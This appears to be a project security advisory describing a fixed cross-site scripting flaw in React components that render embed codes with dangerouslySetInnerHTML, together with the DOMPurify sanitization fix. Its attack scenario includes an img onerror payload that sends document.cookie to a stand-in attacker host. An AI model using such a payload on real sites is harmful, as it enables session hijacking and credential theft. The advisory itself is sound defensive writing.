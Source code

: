 ### CVE-2024-XSS-002: XSS in Embed Code Rendering
**Severity:** 🔴 CRITICAL
**CVSS Score:** 8.7/10
**Status:** ✅ FIXED
**Pull Request:** #14
**Fix Date:** October 2025

#### Vulnerability Description
23 instances of `dangerouslySetInnerHTML` in React components rendered user-controlled content without sanitization, enabling:
- Session hijacking via cookie theft
- Credential theft
- Malware distribution
- Phishing attacks

#### Attack Scenario
```javascript
// Malicious embed code
const embedCode = `<img src=x onerror="
  fetch('https://attacker.com/steal?cookie=' + document.cookie)
">`

// Rendered without sanitization ❌
<div dangerouslySetInnerHTML={{ __html: embedCode }} />
```

#### Fix Implementation
1. **Created centralized sanitization utility:**
   ```javascript
   // frontend/src/utils/sanitize.js
   import DOMPurify from 'isomorphic-dompurify';

   export const sanitize = {
     strict: (dirty) => DOMPurify.sanitize(dirty, {
       ALLOWED_TAGS: [],
       ALLOWED_ATTR: []
     }),

     default: (dirty) => DOMPurify.sanitize(dirty, {
       ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'p', 'br'],
       ALLOWED_ATTR: []
     }),

     rich: (dirty) => DOMPurify.sanitize(dirty, {
       ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'p', 'br', 'ul', 'ol', 'li', 'a', 'code'],
       ALLOWED_ATTR: ['href', 'target', 'rel'],
       ALLOWED_URI_REGEXP: /^(?:(?:(?:f|ht)tps?|mailto|tel):|[^a-z]|[a-z+.-]+(?:[^a-z+.\-:]|$))/i
     })
   };
   ```

2. **Fixed all 23 XSS vulnerabilities:**
   - Blog posts (6 instances)
   - Forum embed codes (8 instances)
   - Course descriptions (4 instances)
   - Exercise content (3 instances)
   - User profiles (2 instances)
